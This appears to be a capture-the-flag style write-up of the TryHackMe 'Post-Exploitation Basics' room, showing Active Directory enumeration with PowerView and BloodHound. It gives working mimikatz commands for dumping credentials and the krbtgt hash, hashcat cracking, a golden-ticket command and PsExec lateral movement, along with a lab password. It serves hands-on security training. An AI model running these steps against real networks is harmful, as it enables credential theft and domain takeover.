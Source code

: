 # Post-Exploitation Basics

**Room Link:** [https://tryhackme.com/room/postexploit](https://tryhackme.com/room/postexploit)



## Presteps for Lab

### SharpHound Installation

SharpHound version on the box is too old for the current version of Bloodhound so I had to update it.

**Kali**

```
git clone https://github.com/BloodHoundAD/BloodHound.git

scp -r BloodHound/Collectors/SharpHound.ps1 Administrator@$VICTIM:C:/Users/Administrator/
Password: P@$$W0rd
```

Added this line to SharpHound.ps1 before transfering so I could run the command right away

<figure><img src="../../.gitbook/assets/image (3) (1) (4).png" alt=""><figcaption></figcaption></figure>

**Victim**&#x20;

```
powershell -ep bypass
.\SharpHound.ps1
```

### BloodHound Installation

```
apt-get install bloodhound
neo4j console
```

<figure><img src="../../.gitbook/assets/image (88).png" alt=""><figcaption></figcaption></figure>

## Enumeration w/ Powerview

**Kali**

```
ssh Administrator@$VICTIM
Password: P@$$W0rd
```



**Victim**

Run below to be able to run PowerView commands.

```
powershell -ep bypass
. .\Downloads\PowerView.ps1
```

Enumerate the domain users.

```
Get-NetUser | select cn
```

<figure><img src="../../.gitbook/assets/image (87).png" alt=""><figcaption></figcaption></figure>

Enumerate the domain groups.

```
Get-NetGroup -GroupName *admin*
```

<figure><img src="../../.gitbook/assets/image (4) (1) (4).png" alt=""><figcaption></figcaption></figure>

Find Shared folders.

```
Invoke-ShareFinder
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

Get Operating systems on the network.

```
Get-NetComputer -fulldata | select operatingsystem
```

<figure><img src="../../.gitbook/assets/image (89).png" alt=""><figcaption></figcaption></figure>

## Enumeration w/ Bloodhound

Setup and get loot with Bloodhound.

**Victim**

```
powershell -ep bypass
. .\Downloads\SharpHound.ps1
Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip
```



Transfer Bloodhound results back to Kali. SCP can be used in this case

**Kali**

```
scp Administrator@$VICTIM:C:/Users/Administrator/20230212071833_loot.zip loot.zip
Password: P@$$W0rd
```

### Mapping the network w/ BloodHound

```
bloodhound --no-sandbox
```

We can just drag the zip file to bloodhound to import it.

<figure><img src="../../.gitbook/assets/image (6) (8) (1).png" alt=""><figcaption></figcaption></figure>

Find all Domain Admins

<figure><img src="../../.gitbook/assets/image (15) (7) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (84).png" alt=""><figcaption></figcaption></figure>

List all Kerberostable accounts

<figure><img src="../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Dumping hashes w/ mimikatz

**Kali**

```
ssh Administrator@$VICTIM
Password: P@$$W0rd
```

**Victim**

```
cd Downloads && mimikatz.exe
```

**Victim - Mimikatz**

```
privilege::debug
lsadump::lsa /patch
```

<figure><img src="../../.gitbook/assets/image (13) (3).png" alt=""><figcaption></figcaption></figure>

Copy to Kali output back to Kali

****![](<../../.gitbook/assets/image (3) (7).png>)****

Output only the hashes and remove all duplicates into a new file.

**Kali**

```
cat hashes.txt | grep NTLM | awk -F ":" '{print $2}' | grep "\S" | sed 's/^[ \t]*//'  | sort | uniq > hash.txt
```

<figure><img src="../../.gitbook/assets/image (1) (2) (5).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt
hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt --show
```

<figure><img src="../../.gitbook/assets/image (14) (1) (2).png" alt=""><figcaption></figcaption></figure>

## Golden Ticket Attacks w/ mimikatz

**Kali**

```
ssh Administrator@$VICTIM
Password: P@$$W0rd
```

### Dump the krbtgt Hash

**Victim**

```
cd downloads && mimikatz.exe
```

This dumps the hash and security identifier of the Kerberos Ticket Granting Ticket account allowing you to create a golden ticket. Take note of what is outlined in red you'll need it to create the golden ticket.

**Victim - Mimikatz**

```
privilege::debug
lsadump::lsa /inject /name:krbtgt
```

<figure><img src="../../.gitbook/assets/image (16) (6).png" alt=""><figcaption></figcaption></figure>

### Create a Golden Ticket

**Victim - Mimikatz**

```
kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf /id:500
```

<figure><img src="../../.gitbook/assets/image (11) (5).png" alt=""><figcaption></figcaption></figure>

### Use the Golden Ticket to access other machine

This will open a new command prompt with elevated privileges to all machines.Access other Machines! - You will now have another command prompt with access to all other machines on the network.&#x20;

**Victim - Mimikatz**

```
misc::cmd
```

This doesn't actually work. Because of how tryhackme is setup but you would then be able to access other machines. In the example below you'd need to find out what other machines exists to pull this off.

**Victim**

```
dir \\Desktop-1\c$
PsExec.exe \\Desktop-1 cmd.exe
```

<figure><img src="../../.gitbook/assets/image (17) (2).png" alt=""><figcaption></figcaption></figure>

## Enumeration w/ Server Manager

**Kali**

```
rdesktop -d CONTROLLER -u Administrator $VICTIM
Password: P@$$W0rd
```

Open Active Directory

<figure><img src="../../.gitbook/assets/image (1) (1) (5).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (18) (3) (1).png" alt=""><figcaption></figcaption></figure>
